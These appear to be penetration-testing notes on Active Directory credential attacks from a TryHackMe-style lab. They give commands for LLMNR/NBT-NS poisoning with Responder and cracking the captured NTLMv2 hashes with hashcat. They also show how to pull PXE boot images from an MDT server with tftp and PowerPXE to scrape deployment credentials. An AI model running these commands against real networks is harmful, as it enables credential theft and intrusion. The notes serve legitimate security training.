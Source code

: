 
### NetNTML with SMB

It is possible to intercept NTLM challenges and crack it to recover password

It is possible to run a man in the middle attack with a rogue device (use Responder to perform man in the middle and poisonning LLMNR as Link-Local Multicast Name Resolution, NBT-NS NetBIOS Name Server and WAPD Wab Proxy Auto-Discovery)

```bash
# Start Responder
$ sudo responder -I <interface>
$ sudo responder -I 
# Wait capture NTLMv2-SSP
# Copy the NTLMv2-SSP Hash on file
$ echo "<NTLMv2-SSP content>" > <hashfile>
# Use hashcat 
hashcat -m 5600 <hashfile> <passwordfile> --force
```

---

### Microsoft Deloyment Toolkit

It is possible to inject a privilege escalation vector to gain admin access to the OS one the PXE booted

It is possible to perform password scraping attacks to recover AD cred used during the install

```powershell
1. First we need to find the IP of the MDT server
2. What was the name of the BCD files (PXE boot for multiple arch)
3. Get BCD file
> tftp -i thmmdt.za.tryhackme.com GET "\Tmp\x64{<namefile>}.bcd" conf.bcd
4. Use PS and get the PWE boot image
> powershell -executionpolicy bypass
> Import-Module .\PowerPXE.ps1
> $BCDFile = ".\conf.bcd"
> Get-WimFile -bcdfile $BCDFile
>> Parse the BCD file: .\conf.bcd 
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim 
\Boot\x64\Images\LiteTouchPE_x64.wim
5. Use pxepower to read credentials (at this stage, it is possible to inject local administrator user, exfiltrate cred, etc.)
6. For exfiltrate cred manually -> look on the bootstrap.ini file
7. pxepower method
> 
```

---

### Configuration files

Various configuration files :
- Web application files
- Service configuration files
- Registry keys
- Centrally deployed applications
